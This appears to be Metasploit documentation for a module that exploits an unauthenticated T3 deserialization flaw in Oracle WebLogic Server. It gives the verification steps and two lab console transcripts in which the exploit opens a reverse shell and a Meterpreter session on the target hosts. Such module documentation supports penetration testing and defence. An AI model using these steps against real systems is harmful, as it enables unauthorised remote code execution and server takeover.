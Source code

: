 ## Description

Oracle Weblogic Server v10.3.6.0, v12.1.3.0, v12.2.1.2, and v12.2.1.3 are vulnerable to a deserialization vulnerable, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 running on Windows10 x64 using JDK v7u17.

## Vulnerable Application

[Oracle Weblogic Server v10.3.6.0](http://download.oracle.com/otn/nt/middleware/11g/wls/1036/wls1036_generic.jar), v12.1.3.0, v12.2.1.2, and v12.2.1.3.

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize`
3. `set rhosts <rhost>`
4. `set srvhost <srvhos>t`
5. `set srvport <srvport>`
6. `run`

## Scenarios

### Tested on Windows 10 x64 running Oracle Weblogic Server 10.3.6.0 on JDK v7u17

```
msf5 exploit(multi/misc/weblogic_deserialize) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf5 exploit(multi/misc/weblogic_deserialize) > set srvhost 172.22.222.121
srvhost => 172.22.222.121
msf5 exploit(multi/misc/weblogic_deserialize) > set srvport 8888
srvport => 8888
msf5 exploit(multi/misc/weblogic_deserialize) > set target 1
target => 1
msf5 exploit(multi/misc/weblogic_deserialize) > run
[*] Exploit running as background job 0.
msf5 exploit(multi/misc/weblogic_deserialize) >
[*] Started reverse TCP handler on 172.22.222.121:4444
[*] Sending stage (179779 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:49908) at 2018-08-08 17:53:07 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : _
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

### Tested on Ubuntu 14.04 LTS x64 running Oracle Weblogic Server 10.3.6.0 on Sun SDK 1.6.0_29
```
msf5 > use exploit/multi/misc/weblogic_deserialize
msf5 exploit(multi/misc/weblogic_deserialize) > set rhosts 172.22.222.205
rhosts => 172.22.222.205
msf5 exploit(multi/misc/weblogic_deserialize) > set srvhost 172.22.222.207
srvhost => 172.22.222.207
msf5 exploit(multi/misc/weblogic_deserialize) > set lhost 172.22.222.207
lhost => 172.22.222.207
msf5 exploit(multi/misc/weblogic_deserialize) > set verbose true
verbose => true
msf5 exploit(multi/misc/weblogic_deserialize) > check

[+] 172.22.222.205:7001 - Detected Oracle WebLogic Server Version: 10.3.6.0
[*] 172.22.222.205:7001 The target appears to be vulnerable.
msf5 exploit(multi/misc/weblogic_deserialize) > run
[*] Exploit running as background job 0.
msf5 exploit(multi/misc/weblogic_deserialize) >
[*] Started reverse TCP handler on 172.22.222.207:4444
[*] 172.22.222.205:7001 - Sending handshake...
[*] 172.22.222.205:7001 - Sending client object payload...
[*] 172.22.222.205:7001 - Comparing host: 172.22.222.205
[*] 172.22.222.205:7001 - Sending payload to client: 172.22.222.205
[*] 172.22.222.205:7001 - Comparing host: 172.22.222.205
[*] Command shell session 1 opened (172.22.222.207:4444 -> 172.22.222.205:37168) at 2018-08-30 06:10:31 -0500
[*] 172.22.222.205:7001 - Server stopped.

msf5 exploit(multi/misc/weblogic_deserialize) > sessions -i 1
[*] Starting interaction with 1...

uname -a
Linux ubuntu 4.4.0-134-generic #160~14.04.1-Ubuntu SMP Fri Aug 17 11:07:07 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
